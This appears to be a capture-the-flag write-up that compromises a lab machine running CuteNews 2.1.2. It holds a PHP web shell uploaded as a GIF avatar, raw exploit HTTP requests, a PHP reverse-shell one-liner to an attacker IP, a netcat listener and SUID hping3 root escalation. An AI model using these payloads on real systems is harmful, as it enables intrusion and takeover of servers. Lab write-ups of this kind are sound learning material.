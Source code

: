 ```yaml
---
layout: post
author: H4
---
```


# discovery
## portscan
```bash
$ nmap -Pn 192.168.55.128
```
-> 22 (OpenSSH)
-> 80 (Apache)
-> 88 (Nginx)
-> 110 (pop3)
-> 995 (pop3)

## web application
- use some kind of dirbuster like gobuster or dirb to identify the `index.php`
- cutenews 2.1.2 is installed on the target

---

# exploitation
- cutenews 2.1.2 is vulnerable to an rce via file upload (https://www.exploit-db.com/exploits/48800)

1. register a new account
2. perform an avatar upload to upload a shell

```http
POST /index.php HTTP/1.1
Host: 192.168.55.128
Content-Length: 1199
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.55.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPcKAGDM5KHHUBCDz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.55.128/index.php?mod=main&opt=personal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="mod"

main
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="opt"

personal
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_key"

61617a044cb8af8982f290744a00cd7a-hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_dsi"

db5cf5e82f5e647c292b0a2587709c4f
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="confirmpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editnickname"

hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
Content-Type: image/gif

GIF8;\n<?php system($_REQUEST['cmd']); ?>

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[site]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[about]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz--

```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:47:07 GMT
Server: Apache/2.4.38 (Debian)
Expires: Sat, 26 Jul 1997 05:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: sameorigin
Last-Modified: Thu, 20 Jan 2022 20:47:07 GMT
Cache-Control: post-check=0, pre-check=0
Accept-Charset: UTF-8
Vary: Accept-Encoding
Content-Length: 7553
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
```

3. execute commands

```http
GET /uploads/avatar_hacker_shell.php?cmd=whoami HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:52:09 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 16
Connection: close
Content-Type: text/html; charset=UTF-8

GIF8;\nwww-data
```

---

# post exploitation
## get reverse shell
payload: ```php -r '$sock=fsockopen("192.168.49.89",443);exec("/bin/sh -i <&3 >&3 2>&3");'```
### request 
```http
GET /uploads/avatar_hacker_shell.php?cmd=php+-r+'$sock%3dfsockopen("192.168.49.55",443)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
````

### listener
```bash
$ nc -lvp 443
listening on [any] 443 ...
192.168.55.128: inverse host lookup failed: Unknown host
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.128] 36152
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## get first flag
```bash
$ pwd
/var/www
$ cat local.txt
13e7c6be29c**********413f552260ec
```
-> ```13e7c6be29c*********413f552260ec```

## priv esc
look for SUID binaries
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
...
$ /usr/sbin/hping3
hping3> /bin/sh -p
# whoami
root
```

## get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
Your flag is in another file...
# cat proof.txt
a39413f0559f*********ac83c86deb
```
-> ```a39413f0559f**********ac83c86deb```
